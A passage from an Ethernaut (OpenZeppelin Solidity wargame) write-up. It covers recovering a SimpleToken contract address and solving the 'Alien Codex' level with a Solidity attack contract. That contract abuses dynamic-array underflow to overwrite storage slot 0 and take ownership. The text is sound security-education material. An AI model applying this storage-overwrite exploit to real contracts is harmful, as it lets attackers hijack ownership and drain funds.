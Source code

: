 This level requires to retrieve the address of SimpleToken. 
The easiest way is to open etherscan and look at the transaction data directly, and you can directly see which address the ether was sent to. 
Another method is to use the level contract address to calculate the contract address of SimpleToken. For the easiest understanding, please refer to [here](https://docs.openzeppelin.com/cli/2.8/deploying-with-create2#creating_a_smart_contract) :
`keccack256(address, nonce)` where the address is the address of the contract (or ethereum address that created the transaction) and nonce is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions).


# 19. [Challenge 19: Alien Codex](https://ethernaut.openzeppelin.com/level/0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272)

Tasks:
- You've uncovered an Alien contract. Claim ownership to complete the level.

Useful Resources:
- [Solution](https://github.com/STYJ/Ethernaut-Solutions)

**Solution:** \
Attack Payload:
```
pragma solidity ^0.8.0;

interface IAlienCodex {
    function revise(uint i, bytes32 _content) external;
}

contract AlienCodex {
    address levelInstance;
    
    constructor(address _levelInstance) {
      levelInstance = _levelInstance;
    }
    
    function claim() public {
        unchecked{
            uint index = uint256(2)**uint256(256) - uint256(keccak256(abi.encodePacked(uint256(1))));
            IAlienCodex(levelInstance).revise(index, bytes32(uint256(uint160(msg.sender))));
        }
    }
}
```

This chapter focuses on understanding array underflow in storage and how to calculate the storage location of elements in array in storage. 
Watching the code first, you will see that all functions require contact=true to be called. Open Console (F12) and call the make_contact function: `contract.make_contact()`

At this point, you can view the data stored in codex in storage:
